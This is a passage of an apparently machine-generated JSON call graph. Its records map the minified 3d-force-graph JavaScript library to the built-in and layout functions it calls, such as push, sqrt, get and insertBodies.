"fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nextDouble"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nextDouble"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "gaussian"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insertBodies"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateBodyForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBestNewPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createQuadTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "newNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "newNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insertBodies"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "newNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "newNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nextDouble"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isSamePosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLinks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLinks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEachNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEachLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "step"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNodesCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBestNewBodyPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addBodyAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addSpring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeSpring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": 